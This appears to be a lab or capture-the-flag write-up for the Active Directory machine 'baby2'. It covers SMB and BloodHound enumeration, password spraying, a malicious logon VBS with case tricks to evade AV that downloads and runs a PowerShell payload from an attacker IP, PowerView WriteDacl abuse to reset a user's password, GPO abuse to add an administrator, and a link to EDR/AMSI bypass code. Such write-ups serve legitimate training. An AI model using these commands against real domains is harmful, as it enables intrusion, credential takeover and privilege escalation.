





---

---

# Initial enumeration

## Nmap Scan

    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 19:13:29Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site:=)
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services

>What we learn from nmap scan: we can add our /etc/hosts baby2.vl dc.baby2.vl and enumurate smb and ldap (its need to call us bloodhound)

## SMB Enumerate
    ➜  baby2 smbclient -L \\baby2.vl    
    Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        apps            Disk      
        C$              Disk      Default share
        docs            Disk      
        homes           Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.

>We can access some shares. Lets look at homes first.

    ➜  baby2 smbclient \\\\baby2.vl\\homes            
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
     .                                   D        0  Sat Sep  2 10:45:25 2023
     ..                                  D        0  Tue Aug 22 16:10:21 2023
    Amelia.Griffiths                    D        0  Tue Aug 22 16:17:06 2023
    Carl.Moore                          D        0  Tue Aug 22 16:17:06 2023
    Harry.Shaw                          D        0  Tue Aug 22 16:17:06 2023
    Joan.Jennings                       D        0  Tue Aug 22 16:17:06 2023
     Joel.Hurst                          D        0  Tue Aug 22 16:17:06 2023
    Kieran.Mitchell                     D        0  Tue Aug 22 16:17:06 2023
    library                             D        0  Tue Aug 22 16:22:47 2023
    Lynda.Bailey                        D        0  Tue Aug 22 16:17:06 2023
    Mohammed.Harris                     D        0  Tue Aug 22 16:17:06 2023
    Nicola.Lamb                         D        0  Tue Aug 22 16:17:06 2023
    Ryan.Jenkins                        D        0  Tue Aug 22 16:17:06 2023

                6126847 blocks of size 4096. 1996458 blocks available
    smb: \>

> I save them at smbusers.txt and for save successfully I uses cut;

    cat smbusers.txt| cut -d " " -f3 |tee users.txt

> and run directly crackmapexec no brute-force but maybe missconfiguration.

    ➜  baby2 crackmapexec smb baby2.vl -u users.txt -p users.txt --continue-on-success --no-bruteforce
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\library:library 

> we got here 2 creds lets continue with library:library

    ➜  baby2 crackmapexec smb baby2.vl -u library -p library --shares 
    SMB         dc.baby2.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) 
    SMB         dc.baby2.vl     445    DC               NETLOGON        READ            Logon server share 
    SMB         dc.baby2.vl     445    DC               SYSVOL          READ            Logon server share  

    ➜  baby2 smbclient \\\\baby2.vl\\SYSVOL -U library
    Password for [WORKGROUP\library]:
    Try "help" to get a list of possible commands.
    smb: \> cd baby2.vl\
    smb: \baby2.vl\> cd scripts\
    smb: \baby2.vl\scripts\> ls
    .                                   D        0  Tue Aug 22 15:28:27 2023
    ..                                  D        0  Tue Aug 22 13:43:55 2023
    login.vbs                           A      992  Sat Sep  2 10:55:51 2023

                6126847 blocks of size 4096. 2019510 blocks available
    smb: \baby2.vl\scripts\> 

> i got login.vbs and analyze it with ChatGPT.

### login.vbs
    ➜  baby2 cat login.vbs 
    Sub MapNetworkShare(sharePath, driveLetter)
        Dim objNetwork
        Set objNetwork = CreateObject("WScript.Network")    
  
        ' Check if the drive is already mapped
        Dim mappedDrives
        Set mappedDrives = objNetwork.EnumNetworkDrives
        Dim isMapped
        isMapped = False
        For i = 0 To mappedDrives.Count - 1 Step 2
            If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
                isMapped = True
                Exit For
            End If
        Next
    
        If isMapped Then
            objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
        End If
    
        objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
        If Err.Number = 0 Then
            WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
         Else
             WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
        End If
    
        Set objNetwork = Nothing
        End Sub

    MapNetworkShare "\\dc.baby2.vl\apps", "V"
    MapNetworkShare "\\dc.baby2.vl\docs", "L"

>This VBScript function maps a network share to a specified drive letter, checks if the drive letter is already in use, and if so, removes the existing mapping before creating a new one. Here’s a breakdown of the script:

1.Create a Network Object: This is used to interact with network shares.

2.Check Existing Mappings: It checks if the specified drive letter is already mapped.

3.Remove Existing Mapping: If the drive letter is already mapped, it removes the existing mapping.

4.Map New Share: It maps the new network share to the specified drive letter.

>If we can find user can run this we can got another user. we have already library then look at while ldap open at BloodHound.
## Bloodhound Enumurate
    bloodhound-python -d 'baby2.vl' -u 'library' -p 'library' -c all -ns 10.10.112.28

> and upload all .json files at bloodhound.

>I always look at first Transitive Object Control annnd its hit me our user (library) MemberOf DomainUsers.

>Then look directly Domain Users Direct Members. We saw there AMELIA.GRIFFITHS has logon scripts Properties at 
\\baby\SYSVOL\baby2.vl\scripts\login.vbs

>Let create malicious vbs file and upload where ameliea has run it (\\baby\SYSVOL\baby2.vl\scripts\login.vbs)
### malicious login.vbs

    CreateObject("WScrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://10.8.2.152/osman.ps1')"

<mark>I wanna explain something here which one too important:</mark>

1. WScript.Shell -> WScrIpt.SheLL
2. New-ObjEct    -> New-ObjEct
## amelia.griffiths
We put our command those cauze of any AV/EDR! and u need to change ur reverse shell ps1 file. U can hit mines over here.

[AV/EDR bypass .ps1 file at my github](https://github.com/lineeralgebra/bypass-EDR-and-AMSI)

>we can see size changed and she put our malicious vbs file and hit back shell as amelia.griffiths

custom_prompt> whoami
baby2\amelia.griffiths

>Looking straight at amelia.griffiths I did not see much, however when looking at her groups we see something:

    custom_prompt> net user amelia.griffiths

    Local Group Memberships      *Remote Desktop Users 
    Global Group memberships     *office               *Domain Users         
                             *legacy               
    The command completed successfully.

>We saw she is member of legacy. Lets check legacy at BloodHound.

>AND BOOOOOMM!!! 

## GPOADM

<mark>To abuse WriteDacl to a user object, you may grant yourself the GenericAll privilege. This can be accomplished using the Add-DomainObjectAcl function in PowerView.
You may need to authenticate to the Domain Controller as a member of LEGACY@BABY2.VL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation)</mark>

>As shown above the Legacy group, which ameila belongs to has WriteDacl over GPOADM and they have GenericAll permissions over the Default Domain Policy. To do this we must first put PowerView on the machine:

    iex (iwr -usebasicparsing http://10.8.2.152/PowerView.ps1)

    add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"

    $cred = ConvertTo-SecureString 'osman.irem361!' -AsPlainText -Force

    set-domainuserpassword gpoadm -accountpassword $cred

>AND WE HAVE ACCESS GPOADM ;/

    ➜  baby2 crackmapexec smb baby2.vl -u 'GPOADM' -p 'osman.irem361!'
    SMB         dc.baby2.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\GPOADM:osman.irem361!

>Now we have the gpoadm password, lets look deeper into that GenericAll privilege they have over the policy:

>Download pyGPOAbuse here;

[pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

    python3 pygpoabuse.py 'baby2.vl/gpoadm:osman.irem361!' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9  -f -dc-ip 10.10.85.176 -command 'net localgroup administrators /add gpoadm'

>We add gpoadm as administrator and we can use evil-winrm for login!!

    evil-winrm -i 10.10.85.176 -u 'gpoadm' -p 'osman.irem361!'